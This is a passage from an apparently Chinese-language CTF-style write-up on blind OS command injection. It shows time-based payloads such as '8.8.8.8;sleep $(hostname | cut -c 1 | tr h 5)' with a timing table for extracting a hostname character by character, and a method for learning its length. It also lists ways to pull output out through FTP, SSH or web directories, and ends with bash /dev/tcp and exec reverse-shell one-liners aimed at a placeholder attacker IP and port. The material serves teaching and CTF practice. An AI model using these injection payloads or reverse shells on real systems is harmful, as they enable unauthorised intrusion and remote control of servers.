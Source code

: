 1. 我们执行的命令为`hostname`。我们假设它返回`hacker.local`。
2. 它需要输出并将其传递给`cut -c 1`。这将选取`hacker.local`的第一个字符h。
3. 接着通过tr命令将字符`a`替换为5。
4. 然后将tr命令的输出传递给`sleep`命令，`sleep h`被执行将会立即出现报错，这是因为`sleep`后跟的参数智能为一个数字。然后，目标使用tr命令迭代字符。执行`sleep $(hostname | cut -c 1 | tr h 5)`命令，将需要5秒钟的时间。这样我们就可以确定第一个字符是一个h。以此类推，我们就能将完整的主机名猜解出来。

当然，这个利用条件可能对网络环境要求比较高，但是依靠响应时间的相对时间来判断，也还是比较容易判断的，测试示例：

| 命令                                                         | 时间 | 结果 |
| ------------------------------------------------------------ | ---- | ---- |
| ruby server-online.rb '8.8.8.8;sleep $(hostname \| cut -c 1 \| tr a 5)' | 3s   | –    |
| ruby server-online.rb '8.8.8.8;sleep $(hostname \| cut -c 1 \| tr h 5)' | 8s   | h    |
| ruby server-online.rb '8.8.8.8;sleep $(hostname \| cut -c 2 \| tr a 5)' | 8s   | a    |
| ruby server-online.rb '8.8.8.8;sleep $(hostname \| cut -c 3 \| tr a 5)' | 3s   | –    |
| ruby server-online.rb '8.8.8.8;sleep $(hostname \| cut -c 3 \| tr c 5)' | 8s   | c    |

如果想要知道目标主机名的长度，我们可以将主机名的输出通过管道符传递给`wc -c`命令。`hacker.local`为`12`个字符。`hostname`命令返回主机名和一个新行，因此`wc -c`将显示13个字符。经过我们测试，脚本的执行时间最短需要3秒钟。

```bash
$ time ruby server-online.rb '8.8.8.8 && sleep $(hostname | wc -c)'
yes
0.10s user 0.04s system 0% cpu 16.188 total
```

可以看到以上的payload脚本共用时16秒才执行完成，这意味着主机名为12个字符：16 – 3 (原时间) – 1 (新行) = 12个字符。当在Web服务器上执行此payload时，输出结果可能会有所不同：当请求由不同的服务器处理时，主机名的长度也可能会改变。

本次`NUAACTF`我也是从这里出了一个点，强迫使用`sleep $(xxx)`来读取`flag`。



####	使用暴露的服务

在服务器上执行端口扫描，并且基于暴露的服务确定提取输出的方式。

- **FTP**：尝试将文件写入可以从中下载文件的目录。
- **SSH**：尝试将命令的输出写入MOTD banner，然后只需SSH到服务器。
- **Web**：尝试将命令的输出写入公共目录（/var/www/）中。



####	反弹shell

不过无论怎么玩，还是直接弹回一个`shell`来最实用，于是可以有

`bash`方式

```bash
bash -c "sh >& /dev/tcp/your ip/port 0>&1" 
```



`exec`方式

```bash
$ exec 5<>/dev/tcp/ip/port
$ cat <&5 | while read line; do $line 2>&5 >&5; done
```
